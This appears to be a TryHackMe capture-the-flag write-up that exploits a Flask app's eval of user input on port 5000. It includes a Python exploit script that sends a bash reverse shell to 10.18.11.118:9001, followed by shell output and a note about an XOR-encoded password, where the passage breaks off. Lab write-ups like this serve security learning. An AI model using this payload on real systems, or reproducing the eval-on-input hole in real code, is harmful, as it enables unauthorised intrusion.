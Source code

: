 The nmap result shows the web-server running on port 5000. 



### Foothold

We can download the source code for this web application. Upon looking through the source code, my initial thought was Server-Side Template Injection as it seemed to output data onto the website, but this didn't look exploitable.  In the `app.py` file, we notice `eval` being used. 

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

The input is user input so we can exploit this to run arbitrary commands so we can spawn a reverse shell by inputting `__import__('os').system("COMMAND")`. We set up a listener and run the exploit script.

```python
import requests

url = "http://MACHINE_IP:5000"

rev_shell = "__import__('os').system(\"bash+-c+'bash+-i+>%26+/dev/tcp/10.18.11.118/9001+0>%261'\")#"
payload = f"xa={rev_shell}&xb=3"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

response = requests.post(url, data=payload, headers=headers)
``` 

### Lateral movement

We check out the account we got access to and find the first flag. We also see a note and find out we can run `/usr/bin/python3 /opt/encrypt.py` as sudo (gordon) without needing a password.
```bash
bruce@devie:~$ id 
id
uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
bruce@devie:~$ ls
ls
checklist
flag1.txt
note
bruce@devie:~$ cat flag1.txt
cat flag1.txt
THM{**REDACTED**}
bruce@devie:~$ cat note
cat note
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. Ill share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
```